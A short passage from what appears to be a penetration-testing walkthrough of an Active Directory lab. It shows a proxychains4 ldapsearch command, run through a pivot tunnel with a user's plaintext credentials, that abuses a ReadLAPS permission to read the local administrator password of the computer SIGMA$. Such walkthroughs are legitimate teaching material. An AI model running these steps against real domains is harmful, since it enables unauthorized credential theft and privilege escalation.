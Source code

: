 Since we don't have the Active Directory module, and for a change, we will use the [ldapsearch](https://linux.die.net/man/1/ldapsearch) tool through the pivotnacci tunnel to exploit the ReadLAPS permission. For this, simply provide the user's credentials to Ldapsearch and request the properties of the domain object "SIGMA$": 

```sh
proxychains4 ldapsearch -H ldap://zeta.cyberreserva.com -x -D "lprieto@ciberreserva.com" -w "Password123!" -b "dc=ciberreserva,dc=com" "(sAMAccountName=sigma$)"
```

| ![Image 123](images/123.png) |
|:----------: |
| Enumerating the SIGMA object using ldapsearch through the socks proxy |

| ![Image 124](images/124.png) |
|:----------: |
| Getting ms-Mcs-AdmPwd from SIGMA |
